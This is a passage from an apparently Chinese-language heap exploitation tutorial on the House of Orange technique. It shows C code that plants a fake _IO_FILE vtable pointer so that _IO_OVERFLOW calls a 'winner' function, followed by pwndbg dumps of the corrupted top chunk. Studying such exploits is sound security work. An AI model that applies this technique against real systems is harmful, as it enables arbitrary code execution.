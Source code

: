 ``` c
      The jump table pointer is right after the _IO_FILE struct:
      base_address+sizeof(_IO_FILE) = jump_table
      最终设置跳转地址以控制内存并放置 system。跳转地址的指针在 _IO_FILE 结构体后面：
      base_address + sizeof(_IO_FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
         控制 _IO_OVERFLOW 调用指针在 offset 3 处：jump_table + 0x18 为需要的函数地址
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8
```

修改后的 old top chunk 内存：

```
pwndbg> x/30gx top
0x602400:	0x0068732f6e69622f	0x0000000000000061
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd2510
0x602420:	0x0000000000000002	0x0000000000000003
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x000000000040078f
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000000000	0x0000000000000000
0x6024b0:	0x0000000000000000	0x0000000000000000
0x6024c0:	0x0000000000000000	0x0000000000000000
0x6024d0:	0x0000000000000000	0x0000000000602460
0x6024e0:	0x0000000000000000	0x0000000000000000
```

用 `_IO_FILE_plus *` 读取 old top chunk：

```
pwndbg> p *((struct _IO_FILE_plus *) 0x602400)
$7 = {
  file = {
    _flags = 1852400175, 
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>, 
    _IO_read_end = 0x7ffff7dd1b78 <main_arena+88> "\020@b", 
    _IO_read_base = 0x7ffff7dd2510 "", 
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>, 
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0, 
    _flags2 = 0, 
    _old_offset = 4196239, 
    _cur_column = 0, 
    _vtable_offset = 0 '\000', 
    _shortbuf = "", 
    _lock = 0x0, 
    _offset = 0, 
    _codecvt = 0x0, 
    _wide_data = 0x0, 
```